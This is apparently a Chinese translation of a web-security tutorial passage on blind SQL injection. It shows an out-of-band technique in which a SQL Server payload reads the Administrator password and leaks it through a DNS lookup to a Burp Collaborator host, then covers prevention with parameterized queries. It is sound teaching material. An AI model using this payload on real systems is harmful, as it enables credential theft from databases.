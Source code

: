 在确定了触发带外交互的方法后，你就可以使用带外通道从易受攻击的应用程序中窃取数据。例如：

```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

此输入读取 `Administrator` 用户的密码，附加唯一的 Collaborator 子域，并触发 DNS 查找。这将导致像如下那样的 DNS 查找，从而使你能够查看捕获的密码：

```sql
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

带外（OAST）技术是检测和利用 SQL 盲注的一种非常强大的方法，因为该方法成功的可能性很高，并且能够直接在带外通道中窃取数据。因此，即使在其他盲注利用技术确实起作用的情况下，OAST 技术通常也是首选的。

> **注意**
>
> 触发带外交互的方法有多种，不同的技术适用于不同类型的数据库。更多详情，请参见[SQL 注入备忘单](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

{% hint style="warning" %}
实验：[带外数据渗出的 SQL 盲注](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)
{% endhint %}

### 如何防止SQL盲注攻击

尽管发现和利用 SQL 盲注漏洞所需的技术与普通的 SQL 注入相比有所不同且更为复杂，但是无论该漏洞是否为盲注，防止 SQL 注入所需的措施都是一样的。

与普通的 SQL 注入一样，可以通过谨慎使用参数化查询来防止 SQL 盲注攻击，参数化查询可以确保用户的输入不会干扰预期的 SQL 查询结构。

> **阅读更多**
>
> [如何防范 SQL 注入](https://portswigger.net/web-security/sql-injection#how-to-prevent-sql-injection)
>
> [使用 Burp Suite 的 Web 漏洞扫描器寻找 SQL 盲注漏洞](https://portswigger.net/burp/vulnerability-scanner)

